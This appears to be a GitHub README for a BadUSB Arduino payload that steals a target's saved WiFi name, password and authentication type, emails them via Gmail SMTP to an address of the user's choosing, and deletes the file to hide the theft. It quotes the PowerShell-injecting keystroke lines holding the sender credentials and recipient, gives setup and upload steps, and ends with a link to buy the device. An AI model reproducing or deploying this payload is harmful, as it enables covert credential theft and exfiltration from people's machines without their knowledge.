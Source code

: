 <h1>README!!</h1>
<h2>WIFI Profile capture and Email</h2>


<i>This payload Steals a targets WIFI Profile. I.E. SSID, Passowrd and Authentication type;
Saves the profile to a text file named "Profile.txt" on the targets desktop;
Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.
After the WIFI Profile contents is emailed the Profile.txt file is delted and the payload leaves to trace on the targets machine of being executed.</i> 

<hr></hr>
**You must Edit the script to include a sender Gmails account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the fields for Senders and receivers email credentials. .
For Senders Email go to line 101 or find this line 

<code>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_EMAIL_PASSWORD')");</code>

Here you will need to change the text that says <code>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</code> to the gmail address the Wifi Profile is to be sent from.

Then Change the text that says <code>CHANGE_THIS_TO_GMAIL_PASSWORD</code> to the corresponding password of the email address from above.

IE: <code>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</code>

We will also need to specify a "from" email. Find this line of code 

<code>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS@gmail.com'");</code> on line 109 and edit the text field labeled
<code>CHANGE_TO_GMAIL_ADDRESS</code> to the same Gmail address from above (IE: senders Gmail).

The final change you'll need to make is to specify a Receivers Email. The line of code can be found on line 113 and looks like this: 

<code>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Receivers_Email_ADDRESS')");</code>

Simply change the text that says <code>CHANGE_TO_Receivers_Email_ADDRESS</code> to the email address you want to recieve the Target's WIFI Profile .



<hr></hr>

To upload the Payload simply plug in your TECHJUVI BadUSB and open the sketch / .ino in the Arduino IDE. Make sure your board is set to Arduino Leonardo and the proper port is selected then click <i> verify</i> then <i>upload</i>.

<b><u>You can purchase a TECHJUVI BadUSB for only $9.99 by <a href="https://www.techjuvi.com/product/badusb/">clicking here!</a></u></b>







